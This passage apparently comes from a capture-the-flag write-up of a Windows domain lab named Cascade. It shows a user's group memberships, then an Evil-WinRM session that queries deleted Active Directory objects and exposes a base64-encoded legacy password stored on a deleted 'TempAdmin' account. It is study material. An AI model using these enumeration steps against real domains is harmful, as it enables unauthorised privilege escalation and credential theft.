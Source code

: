 ```shell
BUILTIN\Users                               Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
CASCADE\Data Share                          Alias            S-1-5-21-3332504370-1206983947-1165150453-1138 Mandatory group, Enabled by default, Enabled group, Local Group
CASCADE\IT                                  Alias            S-1-5-21-3332504370-1206983947-1165150453-1113 Mandatory group, Enabled by default, Enabled group, Local Group
CASCADE\AD Recycle Bin                      Alias            S-1-5-21-3332504370-1206983947-1165150453-1119 Mandatory group, Enabled by default, Enabled group, Local Group
CASCADE\Remote Management Users             Alias            S-1-5-21-3332504370-1206983947-1165150453-1126 Mandatory group, Enabled by default, Enabled group, Local Group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10                                    Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448
```

```shell
*Evil-WinRM* PS C:\> Get-ADObject -ldapfilter "(&(objectclass=user)(isDeleted=TRUE))" -IncludeDeletedObjects


Deleted           : True
DistinguishedName : CN=CASC-WS1\0ADEL:6d97daa4-2e82-4946-a11e-f91fa18bfabe,CN=Deleted Objects,DC=cascade,DC=local
Name              : CASC-WS1
                    DEL:6d97daa4-2e82-4946-a11e-f91fa18bfabe
ObjectClass       : computer
ObjectGUID        : 6d97daa4-2e82-4946-a11e-f91fa18bfabe

Deleted           : True
DistinguishedName : CN=TempAdmin\0ADEL:f0cc344d-31e0-4866-bceb-a842791ca059,CN=Deleted Objects,DC=cascade,DC=local
Name              : TempAdmin
                    DEL:f0cc344d-31e0-4866-bceb-a842791ca059
ObjectClass       : user
ObjectGUID        : f0cc344d-31e0-4866-bceb-a842791ca059

*Evil-WinRM* PS C:\> Get-ADObject -ldapfilter "(&(objectclass=user)(DisplayName=TempAdmin)(isDeleted=TRUE))" -IncludeDeletedObjects -Properties *


accountExpires                  : 9223372036854775807
badPasswordTime                 : 0
badPwdCount                     : 0
CanonicalName                   : cascade.local/Deleted Objects/TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
cascadeLegacyPwd                : YmFDVDNyMWFOMDBkbGVz
CN                              : TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
codePage                        : 0
countryCode                     : 0
Created                         : 1/27/2020 3:23:08 AM
createTimeStamp                 : 1/27/2020 3:23:08 AM
Deleted                         : True
Description                     :
DisplayName                     : TempAdmin
...
```